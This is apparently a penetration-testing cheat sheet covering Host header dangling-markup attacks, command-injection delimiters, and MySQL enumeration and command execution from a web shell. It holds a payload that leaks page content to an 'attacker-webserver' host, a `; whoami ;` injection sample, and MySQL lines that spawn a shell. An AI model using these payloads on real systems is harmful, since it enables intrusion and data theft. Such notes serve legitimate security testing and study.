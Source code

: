 
## HTTP Header Attacks
### Dangling Markup
Excellent writeup with portswigger academy. Some things to try:
Check if Host header is reflected by changing it, possibly append a port, with arbitrary text. If this works, you can try a dangling Markup attack:
`Host: regularhost.com:'<a href="http://attacker-webserver/?`

Check the logs on your web server, you may see content leaked there. If necessary, consider changing the quotes from single to double, or vice versa, depending on what's prevailant on the system.

Also try:
- X-Forwarded-Host
- X-Host
- X-Forwarded-Server
- X-HTTP-Host-Override
- Forwarded


## Command Execution
Useful to put a delimiter before *and* after the injected command. e.g. `  ; whoami  ; ` so that additional data doesn't go to arguments


# MySQL / MariaSQL (other SQL servers?)
## MySQL queries from a command line (useful for a web shell)
```
mysql -u username -pPASSWORD DATABASENAME -e 'whatever query you want'
```
Make sure that there is no space between the p and the password. So for example:
```
mysql -u shootermcgavin -pbreakfast golfdata -e 'SELECT * FROM users;'
```

## MYSQL enumeration 
```
show databases;
use <database>;
show tables;
describe <table_name>;

select grantee, table_schema, privilege_type FROM schema_privileges; #Exact privileges
select user,file_priv from mysql.user where user='root'; #File privileges
select version(); #version
select @@version(); #version
select user(); #User
select database(); #database name

#Try to execute code
select do_system('id');
\! sh
```
